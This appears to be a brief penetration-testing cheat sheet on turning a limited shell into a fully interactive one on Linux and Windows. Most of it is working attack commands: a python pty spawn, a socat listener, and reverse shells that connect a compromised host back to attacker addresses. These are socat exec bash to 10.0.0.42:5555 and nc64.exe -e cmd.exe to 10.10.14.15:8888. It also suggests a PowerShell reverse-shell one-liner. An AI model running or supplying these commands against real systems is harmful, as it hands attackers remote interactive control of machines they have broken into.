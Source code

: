 # Shell Upgrading

Upgrade a semi-interactive shell to a fully interactive shell.

## Linux

Method 1 - Using python3's pty module:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Method 2 - Create a new reverse shell with socat:

Listen for the shell on your own machine:
```bash
socat file:`tty`,raw,echo=0 tcp-listen:5555
```

Transfer the socat binary to the target and send a reverse shell to your machine (10.0.0.42):
```bash
chmod +x ./socat
./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.42:5555
```

You can get a staticly linked binary here: https://github.com/andrew-d/static-binaries


## Windows

Download nc.exe or nc64.exe
```powershell
nc64.exe 10.10.14.15 8888 -e cmd.exe
```

A powershell reverse shell one-liner might also do the trick.